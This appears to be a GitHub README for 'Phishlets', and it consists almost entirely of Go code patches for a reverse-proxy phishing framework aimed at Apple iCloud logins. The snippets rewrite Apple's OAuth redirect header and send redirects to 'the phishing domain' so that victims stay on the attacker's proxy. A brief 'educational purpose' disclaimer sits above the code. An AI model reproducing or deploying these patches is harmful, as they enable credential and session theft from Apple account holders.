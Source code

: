 # Phishlets
Educational Purpose !
This is only for Education Purpose not use for harming to anyone.

				//Replace User Agent Header
				useragent := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if useragent != "" {
					req.Header.Set("X-Apple-Oauth-Redirect-Uri", "https://www.icloud.com")
					log.Debug("[%d] X-Apple-Oauth-Redirect-Uri: https://www.icloud.com", ps.Index)

				} 	
        
 	line no 652 to 665      
			// if "Location" header is present, make sure to redirect to the phishing domain
			r_url, err := resp.Location()
			if err == nil {
				if r_host, ok := p.replaceHostWithPhished(r_url.Host); ok {
					r_url.Host = r_host
					loc := resp.Header.Get("Location")
					if loc == "/auth" {
						resp.Header.Set("Location","/auth")
					} else {
						resp.Header.Set("Location", r_url.String())
					}
					
				} 
			}        
        
	line no 408	
				// fix apple request header 
				ref := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if ref != "" {
					if o_url, err := url.Parse(ref); err == nil {
						if r_host, ok := p.replaceHostWithOriginal(o_url.Host); ok {
							o_url.Host = r_host
							req.Header.Set("X-Apple-Oauth-Redirect-Uri", o_url.String())
						}
					}
				}	
			

